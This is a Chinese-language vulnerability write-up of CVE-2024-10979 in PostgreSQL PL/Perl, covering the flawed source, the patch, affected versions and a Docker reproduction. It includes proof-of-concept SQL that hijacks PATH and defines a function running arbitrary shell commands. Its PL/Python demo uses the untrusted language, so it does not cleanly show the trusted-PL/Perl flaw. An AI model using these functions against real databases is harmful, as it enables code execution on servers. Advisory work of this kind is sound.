

# CVE-2024-10979 CWE-610&15 PostgreSQL 任意代码执行

## 漏洞背景

- **PL/Perl** ： PostgreSQL 数据库系统中的一种可加载过程语言扩展，允许用户使用 Perl 编程语言编写函数和过程。其主要优势在于可以利用 Perl 强大的字符串处理功能，方便解析和操作复杂字符串。PL/Perl 提供了可信（plperl）和不可信（plperlu）两种语言变体，分别适用于不同的安全需求。

## 漏洞原理

​	由于PostgreSQL 数据库系统中的 PL/Perl 扩展对环境变量控制不当，该漏洞允许非特权数据库用户修改敏感的进程环境变量（如 `PATH`），从而可能实现任意代码执行，即使攻击者没有数据库服务器操作系统用户身份。

## 漏洞定位

​	在 **src\pl\plperl\plperl.c** 文件的第 **1852** 行，当我们插入了修改进程环境变量的函数后，PostgreSQL 会调用`plperl_call_handler`函数来设置当前调用上下文，并调用Perl解释器执行函数体等初始化设置。在解释器初始化后，会调用第 **957** 行`plperl_trusted_init`函数来完成受信任环境的设置，但是并没有限制环境变量修改，导致可以在受信任的 PL/Perl 代码中更改环境变量。

```c
/*
 * Initialize the current Perl interpreter as a trusted interp
 */
static void
plperl_trusted_init(void)
{
	dTHX;
	HV		   *stash;
	SV		   *sv;
	char	   *key;
	I32			klen;

	/* use original require while we set up */
	PL_ppaddr[OP_REQUIRE] = pp_require_orig;
	PL_ppaddr[OP_DOFILE] = pp_require_orig;

	eval_pv(PLC_TRUSTED, FALSE);
	if (SvTRUE(ERRSV))
		ereport(ERROR,
				(errcode(ERRCODE_EXTERNAL_ROUTINE_EXCEPTION),
				 errmsg("%s", strip_trailing_ws(sv2cstr(ERRSV))),
				 errcontext("while executing PLC_TRUSTED")));

	/*
	 * Force loading of utf8 module now to prevent errors that can arise from
	 * the regex code later trying to load utf8 modules. See
	 * http://rt.perl.org/rt3/Ticket/Display.html?id=47576
	 */
	eval_pv("my $a=chr(0x100); return $a =~ /\\xa9/i", FALSE);
	if (SvTRUE(ERRSV))
		ereport(ERROR,
				(errcode(ERRCODE_EXTERNAL_ROUTINE_EXCEPTION),
				 errmsg("%s", strip_trailing_ws(sv2cstr(ERRSV))),
				 errcontext("while executing utf8fix")));

	/*
	 * Lock down the interpreter
	 */

	/* switch to the safe require/dofile opcode for future code */
	PL_ppaddr[OP_REQUIRE] = pp_require_safe;
	PL_ppaddr[OP_DOFILE] = pp_require_safe;

	/*
	 * prevent (any more) unsafe opcodes being compiled PL_op_mask is per
	 * interpreter, so this only needs to be set once
	 */
	PL_op_mask = plperl_opmask;

	/* delete the DynaLoader:: namespace so extensions can't be loaded */
	stash = gv_stashpv("DynaLoader", GV_ADDWARN);
	hv_iterinit(stash);
	while ((sv = hv_iternextsv(stash, &key, &klen)))
	{
		if (!isGV_with_GP(sv) || !GvCV(sv))
			continue;
		SvREFCNT_dec(GvCV(sv)); /* free the CV */
		GvCV_set(sv, NULL);		/* prevent call via GV */
	}
	hv_clear(stash);

	/* invalidate assorted caches */
	++PL_sub_generation;
	hv_clear(PL_stashcache);

	/*
	 * Execute plperl.on_plperl_init in the locked-down interpreter
	 */
	if (plperl_on_plperl_init && *plperl_on_plperl_init)
	{
		eval_pv(plperl_on_plperl_init, FALSE);
		/* XXX need to find a way to determine a better errcode here */
		if (SvTRUE(ERRSV))
			ereport(ERROR,
					(errcode(ERRCODE_EXTERNAL_ROUTINE_EXCEPTION),
					 errmsg("%s", strip_trailing_ws(sv2cstr(ERRSV))),
					 errcontext("while executing plperl.on_plperl_init")));
	}
}
```

## 漏洞修复


升级到 PostgreSQL 17.1、16.5、15.9、14.14、13.17、12.21，或相应分支中的更高版本。
操纵进程环境变量的能力(例如： `PATH`)给予攻击者执行任意代码的机会。 因此,"受信任"的PL不应该获得进行这一行动的能力。 为了防止信任的PL/Perl代码改变环境变量,在src\pl\plperl\plc中添加代码  trusted.pl文件(用于加载一些安全的Perl模块)：

```plsql
tie %main::ENV, 'PostgreSQL::InServer::WarnEnv', %ENV or die $!;
```

使用 `tie` 机制将 `%ENV` 绑定到自定义类，把 `%ENV` 替换为由 `PostgreSQL::InServer::WarnEnv` 管理的 tied 哈希表。任何修改环境变量的尝试都只会触发警告，而不会真正改变进程环境。

## 影响版本


PostgreSQL 之前的版本 17.1， 16.5， 15.9， 14.14， 13.17,以及 12.21

## 环境搭建

启动 docker 环境，Postgres 版本为 16.3，poc脚本文件已放入容器中并自动执行



## 漏洞复现

1、进入容器命令行，通过以下命令在容器的 `/tmp/test_bin` 目录下创建了一个名为 `ls` 的自定义脚本，该脚本每次执行时都会输出 `"Custom script executed!"`，这个脚本是作为修改后的PATH环境变量

```bash
docker exec -it postgres-16.3 bash

mkdir /tmp/test_bin
echo -e '#!/bin/bash\n echo "Custom script executed!"' > /tmp/test_bin/ls
chmod +x /tmp/test_bin/ls
```

2、使用 `psql` 连接到正在运行的 PostgreSQL 容器：

```bash
psql -U postgres -d test_db
```

3、poc脚本文件已放入容器中并自动执行，poc脚本中创建了两个 PL/Python 函数：`test_env_python` 和 `run_shell_command`：

- `test_env_python`：此函数将 `/tmp/test_bin` 添加到当前的 `PATH` 环境变量中
- `run_shell_command`：此函数使用 Python 的 `subprocess` 模块执行传入的命令，并返回命令的输出

4、通过执行 `SELECT test_env_python();`成功地将 `/tmp/test_bin` 添加到了 `PATH` 中，表明 `PATH` 已成功更新，poc 执行成功

5、使用 `run_shell_command` 函数执行了 `ls` 命令，由于 `/tmp/test_bin` 已添加到 `PATH`，且该目录下存在自定义的 `ls` 脚本，因此执行结果为`Custom script executed!`验证了自定义脚本被成功调用。


## POC分析

向 PostgreSQL 进程的 PATH 环境变量添加恶意路径。在执行系统命令时，攻击者准备的恶意程序会优先执行。

```c
-- 启用 PL/Python 扩展
CREATE EXTENSION plpython3u;

-- 创建 PL/Python 函数来修改 PATH 环境变量，将 /tmp/test_bin 添加到 PATH 中
CREATE OR REPLACE FUNCTION test_env_python() RETURNS TEXT AS $$
import os
os.environ['PATH'] = '/tmp/test_bin:' + os.environ['PATH']
return os.environ['PATH']
$$ LANGUAGE plpython3u;


-- 创建一个执行 shell 命令的 PL/Python 函数
CREATE OR REPLACE FUNCTION run_shell_command(cmd TEXT) RETURNS TEXT AS $$
import subprocess
result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
return result.stdout
$$ LANGUAGE plpython3u;
```


```sql
CREATE FUNCTION attack() RETURNS void AS $$
  $ENV{PATH} = '/malicious/path:$ENV{PATH}';
$$ LANGUAGE plperl;
```


## 参考链接


[postgresql-env-vuln/README.md is located in main ·fmora50591/postgresql-env-vuln --- postgresql-env-vuln/README.md at main · fmora50591/postgresql-env-vuln](https://github.com/fmora50591/postgresql-env-vuln/blob/main/README.md)

[Incorrect control of environment variables in PostgreSQL... · Vulnerability: CVE-2024-10979 · GitHub Advisory Database --- Incorrect control of environment variables in PostgreSQL... · CVE-2024-10979 · GitHub Advisory Database](https://github.com/advisories/GHSA-2r9h-x757-8j9q)

[CVE-2024-10979: PostgreSQL PL/Perl function environment variable control vulnerability, including overriding PATH vulnerabilities and potential arbitrary code execution](https://nikkeimatome.com/?p=47105)
